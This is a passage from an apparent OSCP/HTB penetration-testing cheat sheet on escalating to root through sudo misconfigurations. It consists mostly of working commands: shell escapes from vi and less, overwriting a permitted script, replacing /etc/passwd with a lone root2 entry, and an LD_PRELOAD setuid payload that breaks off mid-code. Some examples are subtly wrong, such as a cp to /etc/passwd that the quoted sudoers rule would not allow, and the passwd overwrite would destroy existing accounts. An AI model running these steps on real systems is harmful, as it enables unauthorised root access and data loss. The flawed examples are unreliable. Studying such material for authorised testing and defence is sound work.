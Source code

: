 ```bash
# - Essential reference for OSCP/HTB
```

#### **Sudo Misconfigurations**

**What sudo misconfigurations are:** Improper sudo rules that allow users to execute commands with elevated privileges, often leading to full root access.

**Why sudo misconfigurations are common:** Administrators often grant broad sudo access without understanding security implications.

```bash
# Check sudo privileges
sudo -l                                      # List allowed sudo commands
sudo -ll                                     # Detailed sudo listing

# Common sudo misconfigurations and exploits:

# 1. ALL commands allowed
# Entry: user ALL=(ALL) ALL
# Exploit: Simply run 'sudo su' or 'sudo bash'

# 2. NOPASSWD entries
# Entry: user ALL=(ALL) NOPASSWD: /bin/vi
# Exploit:
sudo vi
# Inside vi:
:!/bin/bash

# 3. Shell escape from allowed programs
# Entry: user ALL=(ALL) NOPASSWD: /usr/bin/less
sudo less /etc/passwd
# Inside less:
!/bin/bash

# 4. Command path manipulation
# Entry: user ALL=(ALL) NOPASSWD: /home/user/script.sh
# Exploit: Modify script.sh to include malicious commands
echo '#!/bin/bash
/bin/bash' > /home/user/script.sh
sudo /home/user/script.sh

# 5. Wildcard abuse
# Entry: user ALL=(ALL) NOPASSWD: /bin/cp /home/user/* /tmp/
# Exploit: Create malicious files and copy system files
echo 'root2:$6$salt$hash:0:0:root:/root:/bin/bash' > /home/user/passwd
sudo cp /home/user/passwd /etc/passwd

# 6. Environment variable preservation
# Entry: user ALL=(ALL) NOPASSWD: sudoedit /opt/*/service.conf
# Check for preserved environment variables:
sudo -l
# Look for env_keep options
# Exploit depends on specific environment variables

# 7. LD_PRELOAD privilege escalation
# If LD_PRELOAD is preserved in env_keep:
cat > /tmp/privesc.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
```